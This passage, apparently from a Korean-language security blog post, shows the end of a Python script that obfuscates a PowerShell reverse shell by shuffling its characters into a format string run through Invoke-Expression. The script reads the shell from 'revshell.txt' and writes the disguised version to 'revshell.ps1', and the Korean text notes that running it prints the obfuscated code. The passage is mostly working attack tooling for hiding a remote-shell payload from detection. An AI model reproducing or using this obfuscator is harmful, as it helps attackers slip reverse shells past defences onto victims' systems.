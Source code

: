 ```python
    shuffled_index = ''.join([f'{{{new_index}}}' for new_index, (old_index, char) in new_chars_sorted])
    shuffled_index = "'" + shuffled_index + "'"

    obfuscated_code = f'$str={shuffled_index}-f{shuffled_string};Invoke-Expression $str'

    return obfuscated_code

if __name__ == "__main__":
    with open('revshell.txt', 'r') as file:
        revshell_code = file.read()

        obfuscated_code = reorder_obfuscation(revshell_code)

        print(obfuscated_code)

        with open('revshell.ps1', 'w') as file:
            file.write(obfuscated_code)
```

<br>

![image](/assets/posts/250902-12.png)

스크립트를 실행하면 위와 같이 난독화된 코드를 확인할 수 있다.

<br>

![image](/assets/posts/250902-7.png)
